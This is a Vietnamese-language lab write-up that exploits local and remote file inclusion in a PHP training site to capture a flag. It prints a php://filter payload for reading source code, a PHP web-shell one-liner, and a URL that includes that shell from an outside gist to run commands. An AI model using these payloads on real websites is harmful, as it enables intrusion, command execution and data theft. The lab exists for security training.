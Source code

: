 # Lab File Inclusion

## Local File Inclusion (LFI):

![](https://i.imgur.com/0Rva92V.png)

Source code: https://github.com/tu3n4nh/trainingKCSC/blob/main/task_7_file_inclusion/lab_file_inclusion/index.php

### Phân tích

Trang web trên sẽ hiển thị thêm thông tin vào file `index` dựa theo params `info` bằng phương thức GET sau khi ta bấm vào button `More info`.

![](https://i.imgur.com/0RvV0Mj.png)

Thử nhập vào params `info` ký tự bất kỳ:

![](https://i.imgur.com/09D37QM.png)

Ta thấy có lỗi `Warning: include(aaa.php): Failed... No such file or directory in`

Vậy là ta có thể xác định được khi click vào button `More info` thì file chứ thông tin về con vật trong params `info` sẽ được include vào trang `index` và hiện ra màn hình.

Dựa vào việc `include(aaa.php)` từ ngay trang `index.php` ta có thể tạm xác định folder hiện tại đang chứa những file như sau:

```
┐
├─index.php    // Chứa chứa hàm include()
├─cat.php      // File chứa thông tin về cat
├─cheems.php   // File chứa thông tin về cheems
└─pepe.php     // File chứa thông tin về pepe
```

### Khai thác

1. Ta sẽ sử dụng payload: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter
    Để đọc source code của từng file `index.php?info=php://filter/convert.base64-encode/resource=index`
    
    ![](https://i.imgur.com/GNWnU6M.png)
    
2. Decode đoạn base64 nhận được để nhận được source code:
    
    ![](https://i.imgur.com/fU2sZ2w.png)



## Remote File Inclusion (RFI):

![](https://i.imgur.com/0Rva92V.png)

Source code: https://github.com/tu3n4nh/trainingKCSC/blob/main/task_7_file_inclusion/lab_file_inclusion/index.php

Chỉ file php.ini để cho phép include từ url.

![](https://i.imgur.com/3IDiLLQ.png)


### Phân tích

Trang web trên sẽ hiển thị thêm thông tin vào file `index` dựa theo params `info` bằng phương thức GET sau khi ta bấm vào button `More info`.

![](https://i.imgur.com/0RvV0Mj.png)

Thử nhập vào params `info` ký tự bất kỳ:

![](https://i.imgur.com/09D37QM.png)

Ta thấy có lỗi `Warning: include(aaa.php): Failed... No such file or directory in`

Vậy là ta có thể xác định được khi click vào button `More info` thì file chứ thông tin về con vật trong params `info` sẽ được include vào trang `index` và hiện ra màn hình.

Vì lab này cho phép include file từ url nên ta đã đủ thông tin để bắt đầu khai thác

### Khai thác

1. Tạo một file shell.php chưa payload RCE: `<?php echo system($_GET['cmd']); ?>` có thể trên `gist.github.com` sau đó lấy link vào truyền vào params `info`:
    Payload: `?info=https://gist.githubusercontent.com/tu3n4nh/a8078a98897200725ef254544e7a93b6/raw/23775cac4cf1b2c308a22e8647485f77cae248e0/shell`

    ![](https://i.imgur.com/znaYa8p.png)

    Thông báo lỗi như vậy chứng tỏ file shell của chúng ta đã thành công chạy trên website
    
2. RCE và ... làm những gì chúng ta muốn thôi:
    
    `&cmd=dir` để list ra các files có trong folder hiện tại
    
    ![](https://i.imgur.com/eKC09ax.png)

    Ctrl + U để cho dễ nhìn:
    
    ![](https://i.imgur.com/6UYSil4.png)

    `&cmd=type flag` để đọc file flag
    
    ![](https://i.imgur.com/a4rFvQ7.png)


=> **Flag: KCSC{F1l3 1nclu51on 15 v3ry d4ng3rou5!}**